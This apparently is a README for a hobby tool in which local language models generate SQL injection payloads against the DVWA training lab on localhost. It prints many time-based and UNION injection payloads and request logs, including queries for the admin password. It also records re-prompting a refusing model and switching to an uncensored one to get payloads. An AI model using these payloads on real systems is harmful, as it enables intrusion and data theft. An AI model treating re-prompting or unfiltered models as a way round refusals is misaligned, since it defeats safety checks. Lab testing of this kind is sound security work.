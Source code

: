 #  LLM powered simple SQLMap tool
Need depedencies
```bash
pip install requests ollama
```

## Notes 
I experimented with different local language models using Ollama. Using Python ollama I pointed the injection point to the exact vulnerable parameter in DVWA. Then using different prompts to have the model ONLY generate a payload, and no other speech, it iteratted through the first generated payload, and if it detected a 5 second sleep, it would stop. Otherwise it would continue until it found a working payload that confirmed the detection.


Here is an example of some of the payloads it is generating.
Columns are: request duration, url, payload (data in POST request)
```bash
python .\main-dvwa-medium.py
0.02 http://localhost/vulnerabilities/sqli_blind/ id=1 OR IF(SUBSTRING(version(),1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@VERSION,1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE TABLE_SCHEMA = DATABASE() AND TABLE_NAME = 'users') > 0&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING_VERSION(),1,1)=5,BENCHMARK(10000000,SHA1('string')),NULL) -- -&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING_VERSION(),1,1)='5',SLEEP(5),NULL)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@version,1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE TABLE_NAME = 'users') > 0&Submit=Submit
4.84 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT SLEEP(5))&Submit=Submit
4.81 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))a)&Submit=Submit
4.91 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))a)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@VERSION,1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(VERSION(),1,1)='5',SLEEP(5),0)&Submit=Submit
4.69 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT SLEEP(5))&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(version(),1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@VERSION,1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@version,1,1)='5',SLEEP(5),0)&Submit=Submit
4.87 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))A)&Submit=Submit
```

After testing around 10 different popular models, the LLama3.3 (42gb) was the only one that I was able to find that would ONLY give me a payload.  Each model continued to babble and talk to me no matter what verbage I used to ask it.  As a result of it being so large, it ran very slow on my machine.  Additionally many models will not generate a SQL injection payload as they have been trained to not provide offensive tactics.  So that also limited which to models would be useful.

## Results
#### Ollama 3.3 (40b) 
This model seemed to get the best results of giving a payload everytime that worked well. It just "worked", although it being slow.  It was worked reliably.

```bash
0.75 http://localhost/vulnerabilities/sqli/?id=1%27+AND+BENCHMARK%282500000%2C+SHA1%281%29%29+%23&Submit=Submit#
20.34 http://localhost/vulnerabilities/sqli/?id=1%27+OR+IF%28SLEEP%285%29%2C1%2C0%29+%23&Submit=Submit#
[+] SQL Injection Found! http://localhost/vulnerabilities/sqli/?id=1%27+OR+IF%28SLEEP%285%29%2C1%2C0%29+%23&Submit=Submit#
Runtime: 88.30
```

#### Llama 3.2 (3b) 
It was quicker in responding, but would respond: "I can't provide information or guidance on illegal or harmful activities, including SQL injection. Is there something else I can help you with?". After repeated prompts, it would somtimes generate something but the regex fu would be too cumbersome in this model.

#### Dolphin-Mixtral (uncensored) (7b) 
This model has mixed results. Sometimes it's responses are hard to grab and use reliably.  It did have some successes, and it was quicker in generating the payload then llama3.3 to test.  This example found it quickly but many other attempts failed. It did morph the payload a bit, which was good.

```bash
payload: ' OR SLEEP(5)=0 -- -
20.43 http://localhost/vulnerabilities/sqli/?id=1' OR SLEEP(5)=0 -- -&Submit=Submit#
[+] SQL Injection Found! http://localhost/vulnerabilities/sqli/?id=1' OR SLEEP(5)=0 -- -&Submit=Submit#
Runtime: 42.79
```

#### Gemma2 (2b)
Not sure what was happening here, it never really got anything correct. It was discussing aws boto3, some coffee, and it gave me a poem one time...

#### Codellama (7b)
This model has potential. As it seems to be quick enough in generating a new payload but the responses are not consistent. I have a feeling with tweaking the prompt a bit more may get more consistent results.  When asked to only provide the payload, it will generate the payload and attach it to the url which makes the post processing hard.  As sometimes it will and sometimes it won't.  But again this model I would spend some more time with as it could have potential as being a good candidate for this type of job.

```bash
payload: http://localhost/vulnerabilities/sqli/?id=1%20AND%20SLEEP(5)&Submit=Submit#
0.02 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1%20AND%20SLEEP(5)&Submit=Submit#&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1%20AND%20SLEEP(5)&Submit=Submit#&Submit=Submit#?
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1%20AND%20SLEEP(5)&Submit=Submit#&Submit=Submit#?&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1 AND (SELECT password FROM users WHERE username = 'admin') #
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1 AND (SELECT password FROM users WHERE username = 'admin') #&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1 AND (SELECT password FROM users WHERE username = 'admin') #&Submit=Submit#
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1 AND (SELECT password FROM users WHERE username = 'admin') #&Submit=Submit#&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1%20AND%20(SELECT%20password%20FROM%20users%20WHERE%20username%3D%27admin%27)%20#%26Submit%3DSubmit%23%26Submit%3DSubmit%23
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1%20AND%20(SELECT%20password%20FROM%20users%20WHERE%20username%3D%27admin%27)%20#%26Submit%3DSubmit%23%26Submit%3DSubmit%23&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1%20UNION%20SELECT%20CONCAT('admin',%27@localhost%27),%20password%20FROM%20users%20WHERE%20username=%27admin%27%23&Submit=Submit#?
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1%20UNION%20SELECT%20CONCAT('admin',%27@localhost%27),%20password%20FROM%20users%20WHERE%20username=%27admin%27%23&Submit=Submit#?&Submit=Submit#
payload: None
0.01 http://localhost/vulnerabilities/sqli/?id=1None&Submit=Submit#
payload: None
0.01 http://localhost/vulnerabilities/sqli/?id=1None&Submit=Submit#
```
